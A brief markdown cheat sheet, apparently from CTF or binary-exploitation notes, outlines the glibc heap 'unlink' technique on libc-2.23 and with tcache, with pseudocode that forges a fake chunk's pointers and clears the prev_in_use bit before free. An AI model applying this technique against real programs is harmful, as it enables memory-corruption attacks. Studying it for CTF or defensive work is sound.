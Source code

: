 # Heap Unlink

## Unlink on libc-2.23
### payload
```
bss void* tmp;
tmp = malloc(0x30);
void* b = malloc(0x1f0);
tmp[0] = 0
tmp[1] = 0x31
tmp[2] = &tmp-0x18
tmp[3] = &tmp-0x10
.....
char* x = (char*)b-8;
x[0] = 0 -> make prev_in_use_bit to 0
free(b)
```

## Unlink on tcache
### payload
```
fill the tcache first
same as libc-2.23
```

## Tips
### Case
```
When the address, which stores the heap ptr, is unkown
make a fake ptr point to the heap chunk
and then
unlink
(maybe cause chunk overlap)
```
